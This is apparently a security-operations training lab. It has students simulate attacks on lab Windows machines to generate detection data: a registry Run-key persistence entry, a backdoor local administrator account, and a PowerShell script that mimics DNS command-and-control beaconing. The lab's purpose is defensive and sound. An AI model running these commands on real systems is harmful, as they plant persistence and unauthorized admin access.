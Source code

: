 # Module 7 - Lab 1 - Exercise 5 - Perform attacks

### Task 1: Attack Windows configured with Defender for Endpoint.

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *Command*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**. Confirm any User Account Control prompts that appear.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd temp
```
4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

6. Attack 3 - Copy and run this command:

```
notepad c2.ps1
```
Select **Yes** to create a new file and copy the following PowerShell script into c2.ps1 and select **save**.

**Note** Paste into the Virtual Machine might have a limited length.  Paste this in three sections to ensure all the script is pasted into the Virtual Machine.  Make sure the script looks as it does in these instructions within the notepad c2.ps1 file.

```


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)

```

At the command prompt, enter the following, enter the command in each row pressing Enter key after each row:
```
powershell
.\c2.ps1
```
**Note:** You will see resolve errors. This is to be expected.
Let this command/powershell script run in the background. Don't close the window.  The command needs to generate log entries for some hours.  You can proceed to the next task and next exercises while this script runs.  The data created by this task will be used in the Threat Hunting lab later.  This process will not create substantial amounts of data or processing.

### Task 2: Attack Windows configured with Sysmon

In this task, you will perform attacks on a host with the Security Events connector configured and Sysmon configured.

1. Login to WIN2 virtual machine as Admin with the password: **Pa55w.rd**.  

2. In the search of the task bar, enter *CMD*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**.

3. In the command prompt, enter the command in each row pressing Enter key after each row:
```
cd \
mkdir temp
cd \temp
```

4. Attack 1 - Copy and run this command:

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

# Proceed to Exercise 6
